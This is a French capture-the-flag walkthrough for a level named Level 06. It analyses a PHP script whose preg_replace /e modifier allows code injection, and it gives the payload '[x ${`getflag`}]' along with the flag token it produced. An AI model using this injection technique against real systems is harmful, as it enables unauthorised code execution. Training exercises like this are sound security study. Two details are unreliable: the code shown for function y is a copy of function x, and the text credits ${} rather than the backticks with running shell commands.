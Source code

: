 ## Level 06: 
  
1. 
    Suite au login, on remarque 2 ficheris présents: ```level06```et ```level06.php```.  
    On essaye d'éxecuter le binaire `level06`:
    ```bash
    PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
    ```  
    Nous comprenons alors qu'il va falloir examiner et utiliser le fichier `level06.php`.  
    Nous examinons le contenu du fichier php :
    ```bash
    cat level06.php
    ```
    Output:
    ```php
    #!/usr/bin/php
    <?php
    function y($m) { 
        $m = preg_replace("/\./", " x ", $m);
        $m = preg_replace("/@/", " y", $m);
        return $m; 
    }

    function x($y, $z) { 
        $a = file_get_contents($y);
        $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
        $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a);
        return $a;
    }

    $r = x($argv[1], $argv[2]);
    print $r;
    ?>
    ```
2. Analyse du script ```level06.php```:  
Le script ```level06.php``` définit deux fonctions, y et x, qui manipulent des chaînes de caractères via des remplacements avec des expressions régulières et exécutent des actions sur des fichiers.

    2.1 Prise d'arguments en ligne de commande:  
    Le script prend 2 arguments ```$argv[1]``` et ```$argv[2]``` en ligne de commande :
    ```php
    $r = x($argv[1], $argv[2]); 
    ```

    2.2  La fonction x:  
    ```php
    function x($y, $z) { 
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a); 
    $a = preg_replace("/\]/", ")", $a);
    return $a;
    }
    ```
    Cette fonction fait plusieurs choses :
    - Chargement de fichier
        ```php
        $a = file_get_contents($y);
        ```  
        Cette ligne permet de charger le fichier, dont le chemin est fourni par `$y`, dans la variable `$a` en utilisant `file_get_contents($y)`
    - 1er remplacement:
        ```php
        $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
        ```  
        Cette ligne recherche des motifs dans `$a` correspondant à `[x ...]` où `...` peut être n'importe quel texte. La partie capturée après `[x` (désignée par `(.*)`) est passée en argument à la fonction `y`. Puis, Le contenu `[x ...]`est remplacé par le résultat de la fonction `y(...)`.
    - 2eme et 3eme remplacement:
        ```php
        $a = preg_replace("/\[/", "(", $a);
        $a = preg_replace("/\]/", ")", $a);
        ```  
        Ces lignes permettent de remplacer tous les `[` par des `(` ainsi que tous les `]` par des `)`.  

    2.3  La fonction y:  
    ```php
    function x($y, $z) { 
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a); 
    $a = preg_replace("/\]/", ")", $a);
    return $a;
    }
    ```
    Cette fonction prend une chaîne de caractères m en entrée, applique 2 remplacements avec des expressions régulières, et retourne la chaîne modifiée :
    - Elle remplace tous les . (points) par la chaîne x (un espace, un "x", et un autre espace).
    - Elle remplace tous les @ (arobases) par la chaîne y (un espace suivi d'un "y").  

3. Analyse de la faille :  
    Dans la fonction x, une ligne nous intéresse:
    ```php
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    ```
    La fonction preg_replace en PHP permet de rechercher des motifs dans une chaîne de caractères et de les remplacer par une autre chaîne. Elle prend trois arguments :
    - Le premier argument : L'expression régulière `"/(\[x (.*)\])/e" `
    - Le deuxième argument : La chaîne de remplacement `"y(\"\\2\")"`
    - Le troisième argument : La chaîne d'entrée `$a`.
    
    La particularité ici réside dans l'usage du modificateur /e, qui est notre faille:
    
    - Le modificateur /e signifie que PHP évaluera la chaîne de remplacement comme du code PHP.
    - Cela permet d’exécuter du code PHP arbitraire dans la chaîne de remplacement.
    
    Ainsi, pour exploiter la faille, il suffit que la chaîne d'entrée `$a` soit `[x ${getflag}]` pour que le script éxecute la commande shell `${getflag}`. ( En PHP la syntaxe `${}` est utilisée pour l’exécution de commandes shell.)  

4. Exploitation de la faille:  
    Pour exploiter cette faille, nous allons créer un fichier temporaire `flag06` dans `/tmp/` contenant ```[x ${`getflag`}]```:
    ```bash
    echo '[x ${`getflag`}]' > /tmp/flag06
    ```  
    et nous allons ensuite éxecuter le binaire `level06` avec le fichier `/tmp/flag06` argument.  
    Output:
    ```bash
    PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
     in /home/user/level06/level06.php(4) : regexp code on line 1
    ```
